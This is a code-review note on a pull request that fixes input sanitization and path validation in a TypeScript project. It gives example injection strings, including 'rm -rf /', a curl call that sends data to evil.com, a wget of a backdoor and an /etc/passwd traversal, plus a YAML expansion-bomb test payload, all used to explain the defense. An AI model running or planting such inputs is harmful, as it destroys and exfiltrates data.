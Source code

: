 # Security Testing PR #225 - Review Fixes Needed

## Review Summary
The security testing infrastructure is EXCELLENT but found real vulnerabilities that need fixing before merge.

## 🔴 Critical Fixes Required

### 1. Fix sanitizeInput() - WRONG Implementation
**Location**: `src/security/InputValidator.ts:113-124`

**Current BROKEN Code**:
```typescript
// Only removes HTML characters, NOT shell metacharacters!
export function sanitizeInput(input: string, maxLength: number = 1000): string {
  if (!input || typeof input !== 'string') {
    return '';
  }
  
  return input
    .replace(/[\x00-\x1F\x7F]/g, '')     // Control characters
    .replace(/[<>'"&]/g, '')             // HTML characters ONLY
    .substring(0, maxLength)
    .trim();
}
```

**REQUIRED Fix**:
```typescript
export function sanitizeInput(input: string, maxLength: number = 1000): string {
  if (!input || typeof input !== 'string') {
    return '';
  }
  
  return input
    .replace(/[\x00-\x1F\x7F]/g, '')     // Control characters
    .replace(/[<>'"&]/g, '')             // HTML-dangerous characters  
    .replace(/[;&|`$()]/g, '')           // Shell metacharacters ⬅️ ADD THIS LINE
    .substring(0, maxLength)
    .trim();
}
```

### 2. Fix validatePath() Signature Mismatch
**Location**: `src/security/InputValidator.ts:33`

**Current**:
```typescript
export function validatePath(inputPath: string): string {
  // Missing baseDir parameter!
}
```

**Required**:
```typescript
export function validatePath(inputPath: string, baseDir?: string): string {
  // If baseDir provided, ensure path is within it
  if (baseDir) {
    const resolvedPath = path.resolve(baseDir, inputPath);
    if (!resolvedPath.startsWith(path.resolve(baseDir))) {
      throw new Error('Path traversal attempt detected');
    }
  }
  
  // Rest of validation...
}
```

## 🟡 Medium Priority Fixes

### 1. Verify Validator Integration
Check that MCP tools actually USE these validators:
- createPersona should use sanitizeInput()
- file operations should use validatePath()
- All user inputs should be sanitized

### 2. Enhance Error Messages
Instead of:
```typescript
throw new Error('Invalid path format');
```

Use:
```typescript
throw new Error(`Path traversal attempt detected: ${inputPath}`);
```

### 3. YAML Bomb Test Enhancement
Current payload might not trigger worst-case expansion. Consider:
```yaml
a: &a ["lol","lol","lol","lol","lol","lol","lol","lol","lol","lol"]
b: &b [*a,*a,*a,*a,*a,*a,*a,*a,*a,*a]
c: &c [*b,*b,*b,*b,*b,*b,*b,*b,*b,*b]
d: &d [*c,*c,*c,*c,*c,*c,*c,*c,*c,*c]
e: &e [*d,*d,*d,*d,*d,*d,*d,*d,*d,*d]
f: &f [*e,*e,*e,*e,*e,*e,*e,*e,*e,*e]
g: &g [*f,*f,*f,*f,*f,*f,*f,*f,*f,*f]
```

## Fix Order

1. **First**: Fix sanitizeInput() - add shell metacharacter removal
2. **Second**: Fix validatePath() - add baseDir parameter
3. **Third**: Run tests to verify fixes
4. **Fourth**: Check integration - ensure validators are used

## Test Commands

```bash
# After fixing sanitizeInput
npm test -- __tests__/security/tests/input-validation-security.test.ts

# After fixing validatePath  
npm test -- __tests__/security/tests/security-validators.test.ts

# Run all security tests
npm run security:all

# If all pass
git add src/security/InputValidator.ts
git commit -m "Fix critical security vulnerabilities in input sanitization

- Add shell metacharacter removal to sanitizeInput()
- Fix validatePath() signature to accept baseDir parameter
- Prevent command injection and path traversal attacks"
git push
```

## Validation Checklist

- [ ] sanitizeInput removes: `; | & $ \` ( )`
- [ ] validatePath accepts baseDir parameter
- [ ] Path traversal tests pass
- [ ] Command injection tests pass
- [ ] All security tests green
- [ ] No regression in existing tests

## Why These Fixes Matter

Without proper sanitization:
- `; rm -rf /` → System destruction
- `| curl evil.com/data` → Data exfiltration  
- `&& wget backdoor.sh` → Backdoor installation
- `../../../etc/passwd` → Sensitive file access

These are CRITICAL vulnerabilities that must be fixed!
